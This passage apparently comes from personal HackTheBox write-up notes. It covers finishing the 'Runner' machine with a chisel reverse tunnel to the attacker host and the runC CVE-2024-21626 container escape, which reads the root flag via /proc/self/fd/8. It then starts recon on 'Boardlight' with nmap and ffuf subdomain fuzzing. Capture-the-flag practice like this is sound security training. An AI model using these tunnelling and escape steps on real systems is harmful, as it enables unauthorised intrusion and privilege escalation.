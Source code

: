 ```bash
chisel server -port 7777 --reverse 
```

runner

```bash
./chisel client 10.10.14.120:7777 R:9000:127.0.0.1:9000
```

Visit `http://localhost:9000` on attacker machine

Turns out that the solution I was referring to is not correct after this point.

Found a link from reddit to a
[blog](https://www.reddit.com/r/hackthebox/comments/1c9orvn/help_regarding_runner_seasonal_machine/)

In actual scenario where you don't have a solution.

- portainer shows the docker version
- search for docker exploit related to host filesystem
- found link to docker [security
  announcements](https://docs.docker.com/security/security-announcements/)
- Got the CVE regarding
  [runC](https://scout.docker.com/vulnerabilities/id/CVE-2024-21626)

Follow instructions as per exploit given in CVE

The current working directory when creating the container has to be set to
`/proc/self/fd/8` to get the host fs.

Attach to the container and get root.txt

```bash
cat ../../../root/root.txt
```


## Boardlight

add `board.htb` to `/etc/hosts`

recon

```bash
nmap -sT 10.10.11.11
# PORT     STATE SERVICE
# 22/tcp   open  ssh
# 80/tcp   open  http
```

browsed through the website but didn't find anything interesting.

virtual host enumeration

```bash
ffuf -u http://10.10.11.11:80 -H "Host: FUZZ.board.htb" -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -fs 15949
# crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 76ms]
```
